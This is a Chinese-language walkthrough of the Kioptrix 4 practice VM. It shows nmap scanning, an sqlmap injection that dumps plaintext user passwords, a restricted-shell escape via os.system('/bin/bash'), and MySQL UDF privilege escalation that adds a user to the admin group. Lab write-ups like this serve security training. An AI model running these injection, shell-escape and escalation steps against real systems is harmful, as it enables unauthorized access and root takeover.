 # Kioptrix4 通关笔记

- 笔记内容由 [xidaner](https://github.com/xidaner) 提供,我仅作部分内容修改

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

# 前期
## nmap
开机后我们发现 这个用户名和密码是不知道的

![image](../../../assets/img/安全/实验/Kioptrix4/1.png)

在虚拟机中要先接入到和 kali 一个网段中.然后我们要知道这个虚拟机的 ip 地址,就要用到 IP 探活.

```
nmap -sP <你虚拟机网卡的网段> /24
```

![image](../../../assets/img/安全/实验/Kioptrix4/2.png)

可以发现网段中一共有 4 个 ip 地址,除去本机和 kali 剩下的就是靶机的 ip 地址

---

## 扫描开放端口
```
nmap 192.168.17.130
```

![image](../../../assets/img/安全/实验/Kioptrix4/3.png)

可以发现,目标打开了 80 端口

![image](../../../assets/img/安全/实验/Kioptrix4/4.png)

目测可以注入,尝试了简单 payload,下面选择直接跑 sqlmap

---
---
---

# 中期
## sql注入

代码:

```
sqlmap -u http://192.168.17.130/checklogin.php
--data="myusername=admin&mypassword=123&Submit=Login" -p mypassword --dump -T members -D members
```

![image](../../../assets/img/安全/实验/Kioptrix4/9.png)

```
 id | username | password              |
+----+----------+-----------------------+
| 1  | john     | MyNameIsJohn          |
| 2  | robert   | ADGAdsafdfwt4gadfga== |
```

---
---
---

# 后期
## 尝试 SSH 登陆

输入用户名和密码登陆进去

![image](../../../assets/img/安全/实验/Kioptrix4/10.png)

这里用了 echo 命令获取交互 shell
```
echo os.system("/bin/bash")
whoami
ifconfig
```

![image](../../../assets/img/安全/实验/Kioptrix4/11.png)

查看服务器下的文件
```
cd /var/www/
cat checklogin.php
```

![image](../../../assets/img/安全/实验/Kioptrix4/12.png)

---

## 登陆 MYSQL
```
mysql -u root -p
```

---

![image](../../../assets/img/安全/实验/Kioptrix4/13.png)

## mysql UDF 提权

在mysql中输入
```
use mysql

create function sys_exec returns integer soname 'lib_mysqludf_sys.so';

select sys_exec('id > /tmp/out; chown john.john /tmp/out');

```
![image](../../../assets/img/安全/实验/Kioptrix4/16.png)

```
use musql

select sys_exec('usermod -a -G admin ')
select sys_exec('usermod -a -G admin john');
```
![image](../../../assets/img/安全/实验/Kioptrix4/17.png)
![image](../../../assets/img/安全/实验/Kioptrix4/18.png)

在我们退出去后,尝试登陆到 root

![image](../../../assets/img/安全/实验/Kioptrix4/19.png)

`whoami` 确认获取 `root`
